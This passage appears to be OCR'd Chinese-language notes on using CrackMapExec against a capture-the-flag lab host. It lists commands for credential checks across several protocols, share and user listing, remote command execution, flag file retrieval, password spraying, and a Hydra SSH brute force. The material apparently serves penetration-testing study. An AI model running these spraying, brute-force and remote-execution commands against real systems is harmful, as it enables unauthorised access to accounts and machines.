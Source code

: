 ### **3. 支援多種協議**
```bash
# SMB (檔案共享)
crackmapexec smb owl.thm -u Jareth -p password123

# WinRM (遠程管理)
crackmapexec winrm owl.thm -u Jareth -p password123

# MSSQL (資料庫)
crackmapexec mssql owl.thm -u Jareth -p password123

# RDP (遠程桌面)
crackmapexec rdp owl.thm -u Jareth -p password123

# LDAP (目錄服務)
crackmapexec ldap owl.thm -u Jareth -p password123
```

### **4. 快速列舉和執行**
```bash
# 列舉 SMB 共享
crackmapexec smb owl.thm -u Jareth -p password123 --shares

# 列舉用戶
crackmapexec smb owl.thm -u Jareth -p password123 --users

# 執行命令
crackmapexec winrm owl.thm -u Jareth -p password123 -x "whoami"

# 讀取文件
crackmapexec smb owl.thm -u Jareth -p password123 --get-file "C:\Users\Jareth\Desktop\flag.txt" "./flag.txt"
```

### **5. 密碼噴灑 (Password Spraying)**
```bash
# 測試一個密碼對多個用戶
crackmapexec smb owl.thm -u users.txt -p 'Password123'

# 測試多個密碼對一個用戶
crackmapexec smb owl.thm -u Jareth -p passwords.txt

# 測試多對多
crackmapexec smb owl.thm -u users.txt -p passwords.txt
```

## 🎯 實際使用場景

### **場景 1: Hydra 找到密碼後驗證**
```bash
# Hydra 說找到了
hydra -l admin -P rockyou.txt ssh://target

# 用 CME 確認
crackmapexec ssh target -u admin -p password123
```
